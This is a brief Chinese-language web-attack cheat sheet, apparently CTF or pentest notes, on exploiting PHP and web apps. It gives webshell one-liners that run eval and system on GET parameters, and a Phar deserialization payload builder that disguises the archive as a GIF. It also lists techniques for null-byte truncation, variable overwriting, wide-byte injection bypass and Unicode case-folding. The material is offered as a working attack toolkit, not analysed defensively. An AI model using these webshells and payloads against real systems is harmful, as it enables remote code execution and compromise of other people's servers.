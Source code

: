    https://paper.seebug.org/1114/

### %00截断

仅对`5.3`前版本有效

### 变量覆盖

`foreach` 配合 `$$`, 构造变量链实现任意变量覆盖

### SHELL

- 通过异或/取反，利用白名单字符构造shell

- 标签绕过

  ```
  <?=eval($_GET[1]);?>
  <script language="PHP">system($_GET[id])</script> // 7.0以下有效
  ```

### Phar反序列化

```php
<?php
class se{
    // xxx
}

$o = new se();
// xxx
echo serialize($o);

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
$phar->setMetadata($o); //将自定义meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering();
```

## 编码

### 宽字节

`%df`结合掉`\`，绕过非编译查询

### 扩展asc

输入扩展asc字符，python部分框架报错回显，结合debug模式等

### Unicode欺骗

大小写转换时考虑存在ᴬ等字符转换漏洞

